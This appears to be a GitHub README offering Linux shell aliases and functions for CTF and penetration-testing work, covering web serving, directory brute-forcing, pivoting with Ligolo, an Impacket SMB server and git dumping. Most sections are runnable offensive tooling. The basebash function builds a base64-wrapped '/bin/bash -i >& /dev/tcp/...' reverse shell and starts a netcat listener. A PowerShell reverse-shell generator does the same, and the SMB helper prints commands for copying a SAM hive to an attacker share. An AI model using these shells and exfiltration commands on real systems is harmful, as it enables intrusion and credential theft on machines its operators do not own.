 # Custom Linux Aliases for CTF and Penetration Testing

This repository contains helpful Linux aliases for tasks like web server provisioning, directory enumeration, reverse shell generation, pivoting, and SMB server setup, commonly used in Capture The Flag (CTF) challenges and penetration testing exercises.

## Aliases Overview

### 1. Start Provisional Web Server

This alias quickly spins up a Python HTTP server, providing access to your Offensive Security tools.

```bash
alias pyweb='python3 -m http.server -d /home/david/Offensive-Security-Tools/ 8888'
```

**Usage:**

To start the web server on port 8888, just run:

```bash
pyweb
```

This will serve files from the /home/david/Offensive-Security-Tools/ directory.

### 2. Directory Enumeration with Dirsearch

This alias simplifies running dirsearch, a popular web directory brute-forcing tool.

```bash
alias dirsearch='python3 /home/david/Offensive-Security-Tools/Enumeration/dirsearch/dirsearch.py'
```

**Usage:**

To use dirsearch, run:

```bash
dirsearch -u <URL>
```

Replace <URL> with the target URL. This command will enumerate directories and files on the target web server.

### 3. Generate PowerShell Reverse Shell (Base64 Encoded)

The basepower function generates a PowerShell reverse shell payload, encoded in Base64, and copies it to the clipboard.

```bash
basepower() {
    IP=$(ip -f inet addr show tun0 | sed -En -e 's/.*inet ([0-9.]+).*/\1/p')
    python3 /home/david/Offensive-Security-Tools/ReverseShells/PowerShellGenerators/autoPowerShellGen.py $IP "$1" | xclip -selection clipboard
    xclip -out -selection clipboard
    sudo nc -nlvp $1
}
```

**Usage:**

To generate a reverse shell on a specific port:

```bash
basepower <PORT>
```


This command:

- Grabs your IP from the tun0 interface.
- Runs a script to generate a reverse shell payload for PowerShell.
- Copies the payload to the clipboard.
- Starts a Netcat listener on the specified port.

### 4. Generate Bash Reverse Shell (Base64 Encoded)

This alias generates a bash reverse shell payload, encodes it in Base64, and copies it to the clipboard.

```bash
basebash() {
    IP=$(ip -f inet addr show tun0 | sed -En -e 's/.*inet ([0-9.]+).*/\1/p')
    rev="/bin/bash -i >& /dev/tcp/$IP/$1 0>&1"
    brev=$(echo -n "$rev" | base64)
    echo "echo $brev | base64 -d | bash" | xclip -selection clipboard
    xclip -out -selection clipboard
    sudo nc -nlvp $1
}
```


**Usage:**

To generate the reverse shell on a specific port:

```bash
basebash <PORT>
```

This will:

- Generate a bash reverse shell payload.
- Encode the payload in Base64.
- Copy it to the clipboard.
- Start a Netcat listener on the specified port.

### 5. Set up Ligolo Server for Pivoting

This alias sets up a Ligolo server to enable tunneling for pivoting purposes.

```bash
ligon() {
    sudo ip tuntap add user david mode tun ligolo
    sudo ip link set ligolo up
    /home/david/Offensive-Security-Tools/Pivoting/ligolo-proxy -selfcert
}
```

**Usage:**

To set up the Ligolo server, simply run:

```bash
ligon
```

This will:

- Create a tun interface.
- Set up the Ligolo proxy with a self-signed certificate.

### 6. SMB Server Setup

This function helps in setting up an SMB server using Impacket.

```bash
smbserver() {
    echo "########################################################"
    echo "Commands to use the shared folder:"
    echo "- net use \\\\192.168.45.168\\share david /user:david"
    echo "- net use Z: \\\\192.168.45.205\\share david /user:david"
    echo "- copy sam.save \\\\192.168.45.205\\share\\ "
    echo "- robocopy \\\\10.10.16.22\\share\\netcat .\\ nc.exe"
    echo "########################################################"
    impacket-smbserver share $1 -smb2support -user david -password david
}
```

**Usage:**

To set up an SMB server with a specific shared directory:

```bash
smbserver <SHARE_DIRECTORY>
```


This will:

- Print some useful SMB commands for accessing the share from a Windows machine.
- Start an SMB server using Impacket with the provided directory as the share.

### 7. Git Repository Dumper

This alias allows you to dump the contents of a remote git repository to a local directory.

```bash
gitdump() {
    if [ $# -lt 2 ]
    then
        echo "No arguments supplied"
        echo "gitdump remoteurl localDirectory"
        echo "Example: gitdump http://10.10.16.8/ ../savegitdirectory"
    else
        python3 /home/david/Offensive-Security-Tools/Miscellaneous/git-dumper/git_dumper.py $1 $2
    fi
}
```

**Usage:**

To dump a git repository:

```bash
gitdump <REMOTE_URL> <LOCAL_DIRECTORY>
```

Replace <REMOTE_URL> with the URL of the git repository and <LOCAL_DIRECTORY> with the directory where you want to save it.

## Acknowledgements

This configuration was inspired by various configurations available online. Special thanks to the community for their contributions and shared knowledge.

---

Feel free to contribute to this repository by opening issues or submitting pull requests with improvements and suggestions.
